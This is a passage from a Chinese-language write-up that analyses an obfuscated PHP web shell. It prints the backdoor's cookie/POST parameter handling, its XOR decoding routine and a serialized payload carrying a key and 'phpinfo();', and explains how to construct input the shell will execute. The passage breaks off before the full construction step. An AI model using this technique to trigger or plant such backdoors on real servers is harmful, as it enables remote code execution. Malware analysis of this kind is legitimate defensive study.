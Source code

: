 ```
$vv = @unserialize(x184f5cc(base64\_decode($vv), $kk));
```

大致功能就是把传入的两个参数值逐个字符转为 ASCII 码并进行位运算 (取反)，得到的结果以字符串形式返回。

```
位取反有个特点：
```

 **1.A 与 B 取反 = C  
    2.B 与 C 取反 = A  
       可逆，B^C 当然就得到 A 了。**

  
所以回过头看：  

我们必须使函数↓↓  

```
e664fd(e664fd($vv, $c77700426), $kk);
```

的返回结果为 ↓↓  

```
a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
```

也就是我们需要在第二次我们必须使 e664fd() 时候，

让 e664fd($vv, $c77700426) 与 $kk 的取反结果等于↓↓  

```
a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
```

```
于是需要看看$kk的值是如何过来的，
```

```
       foreach ($\_COOKIE as $k=>$v){
        $vv = $v;
        $kk = $k;
        }
        if (!$vv){
                foreach ($\_POST as $k=>$v){
                $vv = $v;
                $kk = $k;
                }
        }
```

发现 $kk/$vv 前后没有做什么验证，代码就是就是比较单纯的获取 COOKIE 或 POST 提交过来的参数名和参数值并传给 $kk/$vv  
我们通过 cookie 提交来验证一下是否正常输出：

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqeDqP3Ocd1EMFZfpjCB7XRbKFIzjdabIyj3ZiarngdQOu291pRMickvkKRTJhgFWeTZ8TlbWmu4c7jg/640?wx_fmt=png)  
**没问题！**  
**三. 确定爆菊思路**  
然后我们大致确定下构造的思路：
